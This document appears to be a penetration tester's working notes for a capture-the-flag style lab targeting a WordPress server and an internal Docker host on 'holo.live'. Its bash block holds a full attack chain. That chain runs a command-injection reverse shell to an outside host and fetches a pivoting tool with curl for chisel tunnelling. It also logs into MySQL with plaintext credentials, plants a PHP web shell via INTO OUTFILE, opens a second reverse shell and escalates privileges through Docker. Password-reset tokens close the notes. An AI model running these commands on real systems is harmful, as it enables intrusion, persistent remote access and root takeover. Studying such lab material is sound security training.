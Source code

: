 # Intel

## L-SRV01
IP: 10.200.107.33
OS: Linux
Hostname:
Domain: 
VHost: www.holo.live holo.live admin.holo.live dev.holo.live
Domain SID:
Machine Purpose: Web Server Wordpress
Services:
Service Languages: PHP




## Objectives
What do have in the solutions inventory to meet large network objective?

## Solution Inventory Map
Section to solve 
 


## Data 

#### Credentials

#### Intel

#### Local Inventory



### Todo

### Done

```bash
# login in to 
http://admin.holo.live/index.php
# admin:DBManagerLogin!
http://admin.holo.live/dashboard.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/443+<%261'

# Setup proxychains and chisel
./chisel server -p 8888 --reverse
# curl chisel run client 
curl http://10.50.103.12/chisel-l -o chisel-l
./chisel client 10.50.103.91:8888 R:socks

proxychains mysql -h 192.168.100.1 -u admin -p
# !123SecureAdminDashboard321!
use DashboardDB;
# required create RCE on docker host
# if it does not exist

select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/nvmcmd.php';

proxychains curl "http://192.168.100.1:8080/nvmcmd.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/445+<%261'"

sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh

```

reset for admin: 
```
b69a9e454439e1316427e518adcd887c38e8d0bbaebbdaf4831daf99431f698d93a3142e87eaca7ad4b315d18be7b0019d02
```

reset for gurag: 
```
09f7ab735e40f816e5913df5e157a0b271d1fd8c3665986bc782485322f06ee1fd2b5c5420594171050047280da9fcdeb80e
```

Set in the url to the `user_token=`  on requesting gurag password. 

